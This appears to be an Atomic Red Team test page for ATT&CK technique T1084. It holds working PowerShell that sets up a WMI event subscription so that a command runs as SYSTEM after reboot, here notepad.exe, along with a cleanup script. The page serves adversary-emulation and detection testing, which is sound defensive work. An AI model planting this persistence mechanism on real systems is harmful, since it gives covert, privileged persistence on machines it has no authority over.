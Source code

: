 # T1084 - Windows Management Instrumentation Event Subscription
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1084)
<blockquote>Windows Management Instrumentation (WMI) can be used to install event filters, providers, consumers, and bindings that execute code when a defined event occurs. Adversaries may use the capabilities of WMI to subscribe to an event and execute arbitrary code when that event occurs, providing persistence on a system. Adversaries may attempt to evade detection of this technique by compiling WMI scripts. (Citation: Dell WMI Persistence) Examples of events that may be subscribed to are the wall clock time or the computer's uptime. (Citation: Kazanciyan 2014) Several threat groups have reportedly used this technique to maintain persistence. (Citation: Mandiant M-Trends 2015)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Persistence](#atomic-test-1---persistence)

- [Atomic Test #2 - Persistence Cleanup](#atomic-test-2---persistence-cleanup)


<br/>

## Atomic Test #1 - Persistence
Run from an administrator powershell window

After running, reboot the victim machine. After it has been online for 4 minutes you should see notepad.exe running as SYSTEM.

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


#### Run it with `powershell`! ```
$FilterArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs

$ConsumerArgs = @{name='AtomicRedTeam-WMIPersistence-Example';
                CommandLineTemplate="$($Env:SystemRoot)\System32\notepad.exe";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs

$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```
<br/>
<br/>

## Atomic Test #2 - Persistence Cleanup
Run from an administrator powershell window

Code references

https://gist.github.com/mattifestation/7fe1df7ca2f08cbfa3d067def00c01af

https://github.com/EmpireProject/Empire/blob/master/data/module_source/persistence/Persistence.psm1#L545

**Supported Platforms:** Windows


#### Run it with `powershell`! ```
$EventConsumerToCleanup = Get-WmiObject -Namespace root/subscription -Class CommandLineEventConsumer -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$EventFilterToCleanup = Get-WmiObject -Namespace root/subscription -Class __EventFilter -Filter "Name = 'AtomicRedTeam-WMIPersistence-Example'"
$FilterConsumerBindingToCleanup = Get-WmiObject -Namespace root/subscription -Query "REFERENCES OF {$($EventConsumerToCleanup.__RELPATH)} WHERE ResultClass = __FilterToConsumerBinding"

$FilterConsumerBindingToCleanup | Remove-WmiObject
$EventConsumerToCleanup | Remove-WmiObject
$EventFilterToCleanup | Remove-WmiObject
```
<br/>
